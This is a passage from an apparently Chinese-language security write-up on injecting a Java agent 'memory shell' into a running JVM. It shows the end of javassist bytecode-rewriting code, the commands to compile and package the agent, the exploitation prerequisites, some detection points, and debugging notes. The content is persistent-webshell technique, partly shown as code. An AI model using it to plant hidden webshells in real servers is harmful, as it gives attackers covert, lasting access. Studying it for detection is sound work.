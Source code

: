 ```java.lang.UnsatisfiedLinkError: sun.tools.attach.LinuxVirtualMachine.isLinuxThreads()Z```
	                            //"res.getOutputStream().print(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")).toString());\n" +   // javassist.CannotCompileException: [source error] print(java.lang.Object) not found in javax.servlet.ServletOutputStream
	                            //"res.getOutputStream().flush();\n" +
	                            //"res.getOutputStream().close();\n" +
	
	                             */
	                            "} catch (java.io.IOException e2) {\n" +
	                            "   e2.printStackTrace();\n" +
	                            "    }\n" +
	                            "}");
	
	                    byte[] bytes = c.toBytecode();
	                    c.detach();
	                    return bytes;
	                } catch (Exception e) {
	                    e.printStackTrace();
	                }
	            }
	            return new byte[0];
	        }
	    }
	}

编译打jar包：

	javac -encoding utf-8 -classpath ./javassist-3.28.0-GA.jar AgentMain.java
	jar cvfm AgentMain.jar agentmain.mf AgentMain.class AgentMain$DefineTransformer.class


编译并执行测试程序：

	javac -encoding utf-8 ./TestAgentMain.java
	java TestAgentMain

![](images/17.png)

![](images/16.png)

## 利用条件

1.需要先获取jvm进程名，然后选择要注入的进程

2.服务端环境需要导入 javassist.jar 

## 检测点

1.服务器日志异常，普通的hacker 虽然可以执行命令，但是因为代码不完善或操作失误会引起服务器日志抛出异常，成为一个溯源点。

2.检测内存里的class类名

3....

## 后记

agent内存马本质是进程注入，把agent.jar 注入 filter/servlet/listener内存马。

### 一些调试记录

1.服务器报错：

![](images/15.png)

```